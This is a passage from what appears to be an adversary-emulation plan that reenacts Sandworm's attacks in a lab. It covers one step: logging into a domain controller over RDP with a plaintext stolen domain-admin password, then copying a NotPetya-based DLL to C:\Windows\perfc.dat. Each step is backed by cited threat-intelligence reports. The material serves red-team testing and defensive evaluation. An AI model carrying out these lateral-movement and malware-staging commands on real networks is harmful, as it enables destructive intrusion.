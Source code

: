 :warning: Go back to the gammu RDP session and sign out: `Right-click Windows icon -> Shut down or sign out -> Sign out`

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/>

* <https://www.welivesecurity.com/2017/06/30/telebots-back-supply-chain-attacks-against-ukraine/>

<br>

## Step 18 - Pivot to DC

:microphone: `voice track`

Sandworm logs into arrakis/10.0.1.4 over RDP using domain credentials (patreides).

Sandworm uploads a DLL based on NotPetya to arrakis (C:\Windows\perfc.dat) over a network share tunneled through the RDP connection.

```
File write: C:\Windows\perfc.dat
```

### ☣️ Procedures

:warning: go back to your first terminal window; rename to RDP into arrakis.

RDP into arrakis/domain controller using domain admin credentials.

```bash
# Sandworm Team has used stolen credentials to access administrative accounts within the domain.

xfreerdp +clipboard /u:WORKGROUP\\patreides /p:"ebqMB7DmM81QVUqpf7XI" /v:10.0.1.4 /drive:X,sandworm/Resources/NotPetya/bin
```

Accept certificate warnings if prompted.

Once logged in, close server manager and any spurious warnings or pop-ups.

Open PowerShell as administrator `(right click > run as administrator > yes)`:

Copy NotPetya from dungeon to arrakis over RDP channel:

```bash
copy \\TSCLIENT\X\SharpNP.dll C:\Windows\perfc.dat
```

```bash
dir C:\Windows\perfc.dat
```

### :microscope: Cited Intelligence

* <https://www.justice.gov/opa/press-release/file/1328521/download>

* <https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/>

* <https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/>
